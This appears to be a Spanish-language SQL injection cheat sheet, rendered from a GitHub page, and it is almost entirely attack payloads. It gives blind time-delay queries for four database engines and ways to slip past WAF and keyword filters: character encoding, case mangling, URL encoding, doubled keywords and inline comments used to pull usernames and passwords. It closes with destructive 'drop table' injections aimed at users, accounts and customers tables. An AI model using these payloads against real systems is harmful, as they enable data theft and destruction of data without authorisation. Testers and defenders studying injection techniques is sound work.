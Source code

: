 |DBMS|CONDITIONAL TIME DELAYS|
|:-----:|:----:|
|Oracle|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 'a'||dbms_pipe.receive_message(('a'),10) ELSE NULL END FROM dual`|
|Microsoft|`IF (YOUR-CONDITION-HERE) WAITFOR DELAY '0:0:10'`|
|PostgreSQL|`SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END`|
|MySQL|`SELECT IF(YOUR-CONDITION-HERE,sleep(10),'a')`|

## Filtros para bypassear WAF

[filtros](https://owasp.org/www-community/attacks/SQL_Injection_Bypassing_WAF)

## EVADIR FILTROS

```sql
select ename,sal from emp where ename=’marcus’

# traducido a

SELECT ename, sal FROM emp where ename=CHR(109)||CHR(97)||CHR(114)||CHR(99)||CHR(117)||CHR(115)

```

si los comentarios estan bloqueados:

```sql
‘ or 1=1--

# traducir a 

‘ or ‘a’=’a
```

si la palabra select esta bloqueada o eliminada:

```sql
SeLeCt
%00SELECT
SELSELECTECT
%53%45%4c%45%43%54
%2553%2545%254c%2545%2543%2554
```

se puede usar comentarios entre la consulta:

```sql
SELECT/*foo*/username,password/*foo*/FROM/*foo*/users

SEL/*foo*/ECT username,password FR/*foo*/OM users
```

se puede eliminar tablas:

```
‘ drop table users--
‘ drop table accounts--
‘ drop table customers--
```
